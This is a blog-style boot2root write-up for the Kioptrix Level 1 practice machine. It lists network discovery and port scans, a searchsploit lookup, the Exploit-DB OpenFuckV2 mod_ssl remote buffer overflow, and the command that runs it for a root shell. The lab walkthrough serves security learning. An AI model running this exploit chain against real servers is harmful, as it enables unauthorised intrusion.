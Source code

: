 ```yaml
---
title: "boot2root - Kioptrix Level 1"
date: 2019-02-21T19:44:05+11:00
author: Cameron Wang
description: My Steps/Process of Gaining Root on the Kioptrix Level 1 Machine
---
```


'boot2root - Kioptrix Level 1' Notes - https://drive.google.com/open?id=1ELx9NS0ONeKRIN5NSrjgSSxfMo-Pl8VN

---
# Kioptrix Level 1 - Rooted
## Gaining Root
Steps/Process:

1. Locating the IP Address of the Vulnerable Machine

	- nmap -sP 192.168.43.0/24: scans the network for other machines and returns their IP and MAC Addresses
	
	- netdiscover -i eth0 -r 192.168.43.0/24: scans the network for other machines and returns their IP and MAC Addresses
	
		- Kioptrix IP Address: 192.168.43.115
		
{{<image src="/img/netdiscover.PNG" alt="netdiscover" position="center" style="border-radius: 8px;">}}
		
2.  nmap -sSV -n -T4 -p 1-5000 192.168.43.115: scans for all open ports on the machine

{{<image src="/img/nmap.PNG" alt="nmap" position="center" style="border-radius: 8px;">}}

3. searchsploit mod_ssl: searches Exploit DB for any mod_ssl exploits
	- Exploit Used: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow
		- URL: https://www.exploit-db.com/exploits/76
		
{{<image src="/img/searchsploit.PNG" alt="searchsploit" position="center" style="border-radius: 8px;">}}
		
4. vim 764.c: the exploit needs to be edited to be properly compiled
	- Guide Used To Compile: https://medium.com/@javarmutt/how-to-compile-openfuckv2-c-69e457b4a1d1
	
{{<image src="/img/vim_764.PNG" alt="vim 764.c" position="center" style="border-radius: 8px;">}}
	
5. ./OpenFuck 0x6b 192.168.43.115 443 -c 50: sends shellcode onto machine
# Machine Rooted

{{<image src="/img/openfuck.PNG" alt="OpenFuckV2" position="center" style="border-radius: 8px;">}}
{{<image src="/img/whoami.PNG" alt="root" position="center" style="border-radius: 8px;">}}